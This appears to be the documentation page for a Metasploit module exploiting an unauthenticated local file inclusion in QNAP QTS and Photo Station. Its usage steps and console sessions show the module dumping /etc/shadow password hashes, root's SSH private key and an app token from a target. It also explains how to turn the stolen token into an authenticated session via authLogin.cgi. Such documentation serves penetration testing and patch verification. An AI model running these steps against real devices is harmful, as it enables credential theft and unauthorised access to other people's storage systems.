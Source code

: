 ## Vulnerable Application

### Introduction

This module exploits a local file inclusion in QNAP QTS and Photo
Station that allows an unauthenticated attacker to download files from
the QNAP filesystem.

Because the HTTP server runs as root, it is possible to access
sensitive files, such as SSH private keys and password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.

## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `run`
7. Do: `loot`
8. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
9. Do: `creds`
10. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$0EDxoz0B/Et7aYxLtR/Ik/:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16923:0:99999:7:::
Cherle:$1$$Bb3R7AIqzIemj7kGq5k/p1:16923:0:99999:7:::
redouane:$1$$l265pXOEMo0cRDhod/Z3M1:16923:0:99999:7:::
Test:$1$$0EDxoz0B/Et7aYxLtR/Ik/:16928:0:99999:7:::
Merle:$1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0:17438:0:99999:7:::
[appuser]:!:17451:0:99999:7:::
[sshd]:!:17637:0:99999:7:::
a9d01ba7:$1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/:18405:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  text/plain                      /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf5 auxiliary(gather/qnap_lfi) > creds
Credentials
===========

host  origin         service  public      private                             realm  private_type        JtR Format
----  ------         -------  ------      -------                             -----  ------------        ----------
      [REDACTED]              admin       $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              guest       $1$$ysap7EeB9ODCrO46Psdbq/                 Nonreplayable hash  md5crypt
      [REDACTED]              Cherle      $1$$Bb3R7AIqzIemj7kGq5k/p1                 Nonreplayable hash  md5crypt
      [REDACTED]              redouane    $1$$l265pXOEMo0cRDhod/Z3M1                 Nonreplayable hash  md5crypt
      [REDACTED]              Test        $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              Merle       $1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0         Nonreplayable hash  md5crypt
      [REDACTED]              a9d01ba7    $1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/         Nonreplayable hash  md5crypt

msf5 auxiliary(gather/qnap_lfi) >
```

The hashes can be used to login from the web interface, or through ssh if it's enabled.

#### Dumping ssh private keys

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf5 auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_[redacted]_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
[redacted]
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) >
```

#### Retrieving the token, can be used to authenticate

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf5 auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_[redacted]_qnap.http_815651.bin
[+] File content:
[redacted]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) >
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=[redacted]&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.

### QNAP QTS 4.3.6 with Photo Station 5.7.9

```
```
